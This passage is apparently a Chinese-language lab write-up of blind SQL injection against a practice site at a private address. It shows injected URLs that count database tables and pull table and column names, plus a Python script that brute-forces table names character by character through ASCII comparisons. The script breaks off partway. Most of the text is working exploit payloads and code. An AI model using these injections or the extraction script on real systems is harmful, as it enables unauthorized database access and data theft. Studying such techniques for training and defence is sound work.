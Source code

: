 ``````
判断出来数据库存在3个表

```
http://10.1.0.239/products.php?type=1%20and%20(select%20count(table_name)%20from%20information_schema.tables%20where%20table_schema=database())=3 
```
三个表名爆出来了
```
url="http://10.1.0.239/products.php?type=1%20and%20mid%28%28select%20table_name%20from%20information_schema.tables%20where%20table_schema%3ddatabase%28%29%20limit%200,1%29,1,1%29%3d%27t%27"
```

![1559817167907](assets/1559817167907.png)

开始爆字段用如下语句

```
and mid((select column_name from information_schema.columns where table_name='tblblogs' limit 0,1),1,1)='t'
```

一直爆不出来字段查了好久发现原来是我这种爆破脚本会存在一个问题就是无法分辨大小写。所以我就改进了一下我的脚本,变成ASCII的判断感觉好一点

```python
"""
@Product:DVWA 
@Author:Aixic
@create：2019-06-04-19:33
"""
import urllib.request

header={'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36'
    ,'Cookie': 'level=1','Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3'}
if __name__ == '__main__':
    a=""
    c = 0
    for k in range(0,20):
        a+="\r\n"+str(k)+":"
        if c==2:
            print("结束了")
            exit()
        for i in range(1,20):
            for j in range(255):
                #j="t"
                url="http://10.1.0.239/products.php?type=1%20and%28select%20ascii%28mid%28%28select%20table_name%20from%20information_schema.tables%20where%20table_schema=database%28%29%20limit%20"+str(k)+",1%29,"+str(i)+",1%29%29%29="+str(j)+""
                try:
                    #print(url)
                    rp = urllib.request.Request(url, headers=header)
                    respon = urllib.request.urlopen(rp)
                    html = respon.read().decode('utf-8')
                    #print(html)
                    #exit()
                    if "Foo Vinyl" in html:
                        if j==0:
                            break
                        #print(j)
                        a+=chr(j)
                        print(a)
                        c = 0
                        break
``````